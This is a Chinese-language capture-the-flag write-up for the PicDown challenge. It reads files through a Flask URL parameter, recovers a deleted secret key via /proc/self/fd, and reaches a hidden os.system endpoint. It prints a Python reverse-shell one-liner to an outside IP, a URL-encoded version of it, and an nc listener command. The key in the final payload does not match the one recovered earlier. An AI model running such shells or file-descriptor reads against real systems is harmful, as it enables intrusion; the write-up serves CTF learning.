



# [网鼎杯 2020 白虎组]PicDown

## 知识点

`linux系统使用open()函数未关闭导致可读取内容`

`flask SECRET_KEY`

`任意文件读取`

## 解题


在输入框中输入数据，按`Enter`


`url`参数，看起来像`ssrf`，试了`file:///etc/passwd`和`http://127.0.0.1/`

都没有回显

尝试直接输入路径时会返回文件内容



读取一下`/proc/self/cmdline`看看运行命令


发现是`python2`运行的程序，一般为`flask`

读取一下环境变量


看到当前工作目录为`/app`

查看源码`app.py`



```python
from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)


@app.route('/')
def index():
    return render_template('search.html')


@app.route('/page')
def page():
    url = request.args.get("url")
    try:
        if not url.lower().startswith("file"):
            res = urllib.urlopen(url)
            value = res.read()
            response = Response(value, mimetype='application/octet-stream')
            response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
            return response
        else:
            value = "HACK ERROR!"
    except:
        value = "SOMETHING WRONG!"
    return render_template('search.html', res=value)


@app.route('/no_one_know_the_manager')
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    return res


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

需要执行命令，需要知道`SECRET_KEY`的内容

所以这里我们的目标就是想办法获取这个`SECRET_KEY`静态变量，再看看`SECRET_KEY`是怎样获取的：

```python
SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)
```

这里是用`open()`方法从 `/tmp/secret.txt` 里面读取的内容作为`SECRET_KEY`的，读取完文件之后就把 `/tmp/secret.txt` 给删掉了，因此我们无法直接包含 `/tmp/secret.txt` 来获取`SECRET_KEY`。

但在 `linux` 系统中如果一个程序用`open()`打开了一个文件但最终没有关闭他，即便从外部（如`os.remove(SECRET_FILE)`）删除这个文件之后，在 `/proc` 这个进程的 `pid` 目录下的 `fd` 文件描述符目录下还是会有这个文件的文件描述符，通过这个文件描述符我们即可得到被删除文件的内容。`/proc/[pid]/fd` 这个目录里包含了进程打开文件的情况，目录里面有一堆`/proc/[pid]/fd/id`文件，`id`就是进程记录的打开文件的文件描述符的序号。我们通过对`id`的爆破，得到`/tmp/secret.txt`文件描述符的序号：


发现了`SECRET_KEY`的值

如上图所示，在`id`等于`3`的时候读取成功了，得到`secret.txt`的内容为：`nL6/jd0OrBL8tJDrosvTLZNQdATFynSs+FjScxRIy1E=` 。这时我们就可以通过`python`来反弹`shell`了，`python`反弹`shell`的`payload`如下：

使用`Hack-Tools`的`Chrome`插件生成



```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("175.24.207.93",8777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")'
```

最终`payload`用`url`编码一下

```url
/no_one_know_the_manager?key=2ZRb4F3xZAJlyrNVhmBH5o7lGUBmoNs4uajixfn4p7o=&shell=python+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("175.24.207.93",8777))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bimport+pty%3b+pty.spawn("/bin/sh")'
```

远程`vps`用`nc -lvnp 8777`监听即可


